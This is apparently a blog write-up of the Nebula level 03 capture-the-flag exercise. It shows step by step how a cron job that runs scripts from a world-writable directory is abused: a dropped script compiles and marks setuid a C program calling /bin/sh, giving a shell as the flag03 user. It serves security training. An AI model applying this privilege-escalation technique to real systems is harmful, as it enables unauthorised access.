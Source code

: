 ```yaml
---
layout: post
title: "Scheduled job"
category: CTF, Nebula
---
```


>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; **[Nebula 03](http://exploit-exercises.com/nebula/level03) Agenda**: "Check the home directory of flag03 and take note of the files there. There is a crontab that is called every couple of minutes."

<center>
	<img src="/images/2015-02-20-scheduled_job/957913ec0d93c51d2_303999e5.jpg">
</center>

<br />

The software utility [Cron](http://en.wikipedia.org/wiki/Cron) is a time-based job scheduler in Unix-like computer operating systems. People who set up and maintain software environments use cron to schedule jobs (commands or shell scripts) to run periodically at fixed times, dates, or intervals.

{% highlight sh linenos %}
level03@nebula:/home/flag03$ ls -la
total 6
drwxr-x--- 3 flag03 level03  103 2011-11-20 20:39 .
drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
-rw-r--r-- 1 flag03 flag03   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag03 flag03  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag03 flag03   675 2011-05-18 02:54 .profile
drwxrwxrwx 2 flag03 flag03     3 2012-08-18 05:24 writable.d
-rwxr-xr-x 1 flag03 flag03    98 2011-11-20 21:22 writable.sh

level03@nebula:/home/flag03$ cat ./writable.sh

#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
{% endhighlight %}

After a small overwiev, as we can see that cron launches "*writable.sh*", which in turn executes and cleans each script from "*writable.d*" directory. In last but not least order, it also notable the [ulimit](http://ss64.com/bash/ulimit.html) restriction (in our case, limit the usage of maximum amount of cpu time to 5 seconds).

The first way that comes to mind to solve it, based on writing the simplest shell:

{% highlight sh linenos %}
level03@nebula:/home/flag03$ mkdir /tmp/level03
level03@nebula:/home/flag03$ touch /tmp/level03/shell.c
level03@nebula:/home/flag03$ vi /tmp/level03/shell.c
{% endhighlight %}
{% highlight C linenos %}
int main(int argc, char **argv, char **envp)
{
  system("/bin/sh");
  return 0;
}
{% endhighlight %}
And after that, setup the task for cron scheduler.
{% highlight sh linenos %}
level03@nebula:/home/flag03$ cd writable.d/
level03@nebula:/home/flag03/writable.d$ cat > cmd.sh

gcc /tmp/level03/shell.c -o /home/flag03/shell;
chmod +s /home/flag03/shell;
{% endhighlight %}
At line 4, we use [gcc](http://en.wikipedia.org/wiki/GNU_Compiler_Collection) compiler to compile our source into [ELF](http://en.wikipedia.org/wiki/Executable_and_Linkable_Format). Ok, now let's pay a few minutes (more precisely - 3, in nebula-5) for cron to have the harvest time:

{% highlight sh linenos %}
level03@nebula:/home/flag03$ ls -la ./shell && file ./shell                     

-rwsrwsr-x 1 flag03 flag03 7161 2015-03-08 09:33 ./shell
./shell: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), 
dynamically linked (uses shared libs), for GNU/Linux 2.6.15, not stripped

level03@nebula:/home/flag03$ ./shell
sh-4.2$ whoami
flag03
sh-4.2$ getflag
You have successfully executed getflag on a target account
{% endhighlight %}

There's also exist the easier way:

{% highlight sh linenos %}
level03@nebula:/home/flag03/writable.d$ cat > enother.sh
getflag > /tmp/flag

level03@nebula:/home/flag03/writable.d$ cat /tmp/flag
You have successfully executed getflag on a target account
{% endhighlight %}

Don't forget to clean-up:

{% highlight sh linenos %}
level03@nebula:~$ rm -r /tmp/level03
level03@nebula:~$ rm /tmp/flag
{% endhighlight %}